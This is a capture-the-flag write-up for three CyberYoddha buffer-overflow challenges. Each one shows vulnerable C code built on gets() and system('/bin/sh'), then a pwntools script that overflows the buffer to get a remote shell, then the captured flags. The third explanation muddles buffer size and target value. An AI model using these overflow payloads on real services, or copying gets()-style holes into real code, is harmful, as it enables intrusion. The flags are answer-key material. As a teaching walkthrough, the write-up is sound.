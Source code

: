# Overflow 1 (125 points)

## Description

ez overflow.

nc cyberyoddha.baycyber.net 10001

[Overflow1](resources/Overflow1);
[Overflow1.c](resources/overflow1.c)

## Solution

Here is the file we were given.

```c
int main(void) {
  char str[] = "AAAA";
  char buf[16];

  gets(buf);
  
  if (!(str[0] == 'A' && str[1] == 'A' && str[2] == 'A' && str[3] == 'A')){
    system("/bin/sh");
  }
}
```

Buffer is defined as 16, so let's write small python script using pwntools.

```python
from pwn import *

payload = "A"*16

s = remote("cyberyoddha.baycyber.net", 10001)
s.sendline(payload)
s.interactive()
```

```shell
$ python overflow1.py
[+] Opening connection to cyberyoddha.baycyber.net on port 10001: Done
[*] Switching to interactive mode
$ ls
flag.txt
overflow1
$ cat flag.txt
CYCTF{st@ck_0v3rfl0ws_@r3_3z}
```

This task can be done easier: just enter 16 A using nc and get the flag

Flag: CYCTF\{st@ck_0v3rfl0ws_@r3_3z}

# Overflow 2 (225 points)

## Description

ez overflow (or is it?)

nc cyberyoddha.baycyber.net 10002

[Overflow2](resources/Overflow2);
[Overflow2.c](resources/overflow2.c)

## Solution

Here is the file we were given.

```c
void run_shell(){
 system("/bin/sh");
}

void vuln(){
 char buf[16];
 gets(buf);
}

int main(void) {
 vuln();  
}
```

So we need to jump over to **run_shell** function using buffer overflow.
[Writeup for a similar task](https://dhavalkapil.com/blogs/Buffer-Overflow-Exploit/)

Let's find address of **run_shell** function using **objdump**

```shell
$ objdump -d overflow2
...
08049172 <run_shell>:                
 8049172:       55                      push   %ebp
 8049173:       89 e5                   mov    %esp,%ebp
 8049175:       53                      push   %ebx
 8049176:       83 ec 04                sub    $0x4,%esp
 8049179:       e8 63 00 00 00          call   80491e1 <__x86.get_pc_thunk.ax>
 804917e:       05 82 2e 00 00          add    $0x2e82,%eax
 8049183:       83 ec 0c                sub    $0xc,%esp
...
```

Address is **0x8049172** and buffer size is 28. Now let's open python and write another script:

```python
from pwn import *

payload = "A"*28
payload += p32(0x8049172)
s = remote("cyberyoddha.baycyber.net", 10002)
s.sendline(payload)
s.interactive()
```

```shell
$ python overflow2.py
[+] Opening connection to cyberyoddha.baycyber.net on port 10002: Done
[*] Switching to interactive mode
$ ls
flag.txt
overflow2
$ cat flag.txt
CYCTF{0v3rfl0w!ng_v@ri@bl3$_i$_3z}
```

Flag: CYCTF\{0v3rfl0w!ng_v@ri@bl3$_i$_3z}

# Overflow 3 (250 points)

## Description

looks like buffer overflows aren’t so easy anymore.

nc cyberyoddha.baycyber.net 10003

[Overflow3](resources/Overflow3);
[Overflow3.c](resources/overflow3.c)

## Solution

Here is the file we were given.

```c
int main(void) {
 long vuln = 0;
        char buf[16];

 gets(buf);

 if (vuln == 0xd3adb33f){
  system("/bin/sh");
 }
}
```

Address is **0xd3adb33f** and buffer size is 16. Now let's open python and write another script:

```python
from pwn import *

payload = "A"*28
payload += p32(0xd3adb33f)
s = remote("cyberyoddha.baycyber.net", 10003)
s.sendline(payload)
s.interactive()
```

```shell
$ python overflow3.py
[+] Opening connection to cyberyoddha.baycyber.net on port 10003: Done
[*] Switching to interactive mode
$ ls
flag.txt
overflow3
$ cat flag.txt
CYCTF{wh0@_y0u_jump3d_t0_th3_funct!0n}
```

Flag: CYCTF\{wh0@_y0u_jump3d_t0_th3_funct!0n}